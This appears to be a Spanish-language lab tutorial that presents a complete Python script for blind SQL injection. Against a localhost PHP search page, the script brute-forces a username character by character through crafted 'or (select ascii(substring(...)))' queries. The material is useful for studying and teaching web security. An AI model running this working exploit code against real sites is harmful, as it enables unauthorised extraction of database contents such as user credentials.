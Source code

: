 # Creación del script para inyección SQL a ciegas

En este documento, explicamos la construcción de un script en Python para realizar una [SQLi](SQLi.md) a ciegas (sqli Blind injection) utilizando fuerza bruta para extraer información de una base de datos. Este ejercicio forma parte de una práctica de seguridad donde simulamos la explotación de una vulnerabilidad en un sitio web.

## Script completo - users

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string


def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)

    for position in range(1, 50):
        for character in range(33,126):
            sqli_url = main_url + "?id=9 or (select(select ascii(substring(username,%d,1)) from users where id = 1)=%d)" % (position, character)

            r = requests.get(sqli_url)
            
            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```
